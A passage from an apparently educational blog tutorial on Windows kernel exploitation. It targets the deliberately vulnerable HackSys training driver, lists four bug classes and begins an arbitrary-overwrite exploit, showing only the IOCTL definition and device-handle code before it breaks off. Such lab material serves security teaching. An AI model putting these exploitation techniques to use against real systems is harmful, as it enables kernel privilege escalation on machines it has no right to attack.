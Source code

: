 # Intro to Windows kernel exploitation part 3: A bit more of the HackSys Driver

This was originally going to be a longer post covering all the vulnerabilities in the HackSys Extremely Vulnerable driver other than the Stackoverflow issue exploited in the last part. However exploiting several of the vulnerabilities turned into lengthy posts in thier own right and I decided to use most of the content from those vulns as parts of posts on exploiting real kernel vulnerabilities instead. So in this post I'm going to cover the following vulnerabilities:

<ol>
<li>Integer Overflow</li>
<li>NULL pointer dereference</li>
<li>Type Confusion</li>
<li>Arbitrary Overwrite</li>
</ol>

This post will only provide a cliff notes overview of exploiting the vulnerabilities but with the background provided in the previous posts it should provide just enough information on each exploit (as well as the full source code).

A git repo containing the visual studio projects for all these exploits can be found [here](https://github.com/sam-b/HackSysDriverExploits)

## Arbitrary Overwrite
First of all we start out with a basic skeleton for our exploit (inside of a new Visual Studio project) which sends the correct IOCTL to the driver.
<pre>
#include "stdafx.h"
#include &lt;stdio.h>
#include &lt;Windows.h>
#include &lt;winioctl.h>
#include &lt;TlHelp32.h>

//Definition taken from HackSysExtremeVulnerableDriver.h
#define HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)

int _tmain(void)
{
	DWORD lpBytesReturned;
	LPCSTR lpDeviceName = (LPCSTR) "\\\\.\\HackSysExtremeVulnerableDriver";

	printf("Getting the device handle\r\n");
	//HANDLE WINAPI CreateFile( _In_ lpFileName, _In_ dwDesiredAccess, _In_ dwShareMode, _In_opt_ lpSecurityAttributes,
	//_In_ dwCreationDisposition, _In_ dwFlagsAndAttributes, _In_opt_ hTemplateFile );
	HANDLE hDriver = CreateFile(lpDeviceName,			//File name - in this case our device name
		GENERIC_READ | GENERIC_WRITE,					//dwDesiredAccess - type of access to the file, can be read, write, both or neither. We want read and write because thats the permission the driver declares we need.
		FILE_SHARE_READ | FILE_SHARE_WRITE,				//dwShareMode - other processes can read and write to the driver while we're using it but not delete it - FILE_SHARE_DELETE would enable this.
		NULL,											//lpSecurityAttributes - Optional, security descriptor for the returned handle and declares whether inheriting processes can access it - unneeded for us.
		OPEN_EXISTING,									//dwCreationDisposition - what to do if the file/device doesn't exist, in this case only opens it if it already exists, returning an error if it doesn't.
		FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,	//dwFlagsAndAttributes - In this case the FILE_ATTRIBUTE_NORMAL means that the device has no special file attributes and FILE_FLAG_OVERLAPPED means that the device is being opened for async IO.
		NULL);											//hTemplateFile - Optional, only used when creating a new file - takes a handle to a template file which defineds various attributes for the file being created.
